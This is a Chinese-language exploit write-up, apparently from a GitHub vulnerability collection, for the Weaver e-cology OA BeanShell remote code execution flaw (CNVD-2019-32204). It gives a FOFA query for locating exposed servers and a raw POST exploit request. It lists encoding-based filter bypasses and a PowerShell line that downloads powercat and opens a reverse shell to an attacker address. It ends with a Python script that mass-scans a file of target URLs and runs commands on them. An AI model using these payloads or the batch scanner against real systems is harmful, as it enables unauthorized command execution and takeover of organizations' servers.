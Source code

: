 # 泛微OA-Bsh-远程代码执行漏洞-CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## FOFA

> [!NOTE]
>
> app=“泛微-协同办公OA”

## 影响版本

> [!NOTE]
>
> E-cology 7.0
> E-cology 8.0
> E-cology 8.1
> E-cology 9.0

## 漏洞复现

直接在网站根目录后加入组件访问路径 /weaver/bsh.servlet.BshServlet/，如下图在victim上执行了命令“whoami”

![](泛微OA-Bsh-远程代码执行漏洞-CNVD-2019-32204.assets/16273635320434391.jpg)

请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

#### 关于绕过

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```

### 漏洞POC

https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204

```python
#/usr/bin/python
#coding:utf-8
#Author:Ja0k
#For Weaver-Ecology-OA_RCE

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

import requests,sys

headers = {
    'Content-Type': 'text/xml; charset=utf-8',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0',
    'Cache-Control': 'max-age=0',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Upgrade-Insecure-Requests': '1',
    'Content-Length': '578'
}

proxies= {'http':'http://127.0.0.1:8080'}
            
def Poc_check(target):

    Url_Payload1="/bsh.servlet.BshServlet"
    Url_Payload2="/weaver/bsh.servlet.BshServlet"
    Url_Payload3="/weaveroa/bsh.servlet.BshServlet"
    Url_Payload4="/oa/bsh.servlet.BshServlet"
    
    Data_Payload1="""bsh.script=exec("whoami");&bsh.servlet.output=raw"""
    Data_Payload2= """bsh.script=\u0065\u0078\u0065\u0063("whoami");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw"""
    Data_Payload3= """bsh.script=eval%00("ex"%2b"ec(bsh.httpServletRequest.getParameter(\\"command\\"))");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&command=whoami"""
    for Url_Payload in (Url_Payload1,Url_Payload2,Url_Payload3,Url_Payload4):
        url= target + Url_Payload
        for Data_payload in (Data_Payload1,Data_Payload2,Data_Payload3): 
            try:
                http_response = requests.post(url,data=Data_payload,headers=headers,verify=False)
                #print http_response.status_code
                if http_response.status_code == 200:
                    if ";</script>" not in (http_response.content):
                        if "Login.jsp" not in (http_response.content):
                            if "Error" not in (http_response.content):
                                print "{0} is a E-cologyOA_RCE Vulnerability".format(url)
                                print "Server Current Username：{0}".format(http_response.content)
                elif http_response.status_code == 500:
                    print "{0}500 maybe is Weaver-EcologyOA，Please confirm by yourself ".format(url)
                else:
                    pass              
            except Exception,Error:
                pass    
    
if __name__ == '__main__':
    for line in open(sys.argv[1]).readlines():
        target=line.strip()
        Poc_check(target)
```

```
#1.install python Dependencies Library 
pip install requests

#2.批量脚本 执行 
python Weaver-Ecology-OA_RCE-exp.py 


url.txt文件中 是url地址 需要带http协议

有任何问题请issue
```

